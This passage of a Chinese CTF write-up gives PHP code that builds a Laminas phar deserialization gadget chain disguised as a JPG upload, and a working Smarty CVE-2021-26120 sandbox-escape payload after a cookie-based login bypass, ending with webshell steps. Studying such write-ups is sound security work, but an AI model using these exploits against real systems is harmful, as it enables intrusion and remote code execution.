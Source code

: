 ```php
        }
    }
}

namespace Laminas\Log{
    class Logger{
        protected $writers;
        function __construct(){
            $this->writers = [new \Laminas\Log\Writer\Mail()];
        }
    }
}


namespace{
    $a = new \Laminas\Log\Logger();
    $phar = new Phar("shell.phar"); 
    $phar -> setStub("撑起大小啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊<?php __HALT_COMPILER(); ?>"); 
    $phar -> setMetadata($a);
    $phar -> addFromString("test.txt",""); 
    $phar -> stopBuffering();
}
?>
```

首先利用这个本地生成shell.phar

之后拿到kali去gzip，`gzip shell.phar`，然后改个后缀，改成`shell.jpg`

到album/imgupload去上传，成功后会返回路径，最后在album/delete去触发它即可获得flag

## **Smarty_calculator**

首页是什么都没有，dirsearch扫目录，发现www.zip和一个index/login，但是这个index/login没什么用

审计源码

在index.php里

![](https://i0.hdslb.com/bfs/album/8fe01ddecc8fe7bd83d8aa12cf0ccaafffacdb0c.png)

有个对cookie的判断，这里令cookie：login=1即可绕过

burp截包，在计算框处可构造{{7*7}},返回49

构造{$smarty.version}可查看smarty版本，这里是为3.1.39

网上找，发现是[CVE-2021-26120](https://srcincite.io/blog/2021/02/18/smarty-template-engine-multiple-sandbox-escape-vulnerabilities.html)沙箱逃逸

当时做的时候都找到了这个cve，但是因为这里对输入的内容还有过滤，当时就以为不是这个。。。

![](https://i0.hdslb.com/bfs/album/2e292a59af5d369f121eed5a2dd5f25362ccaca6.png)

### payload

```
data={function name='(){};pHpinfo();function aaaa(){%0a/\*'}\*///{/function}
```

可以直接写个shell，因为php版本大于7，所以利用蚁剑绕过直接disable_function，获得flag

好像还可以转换为八进制绕过

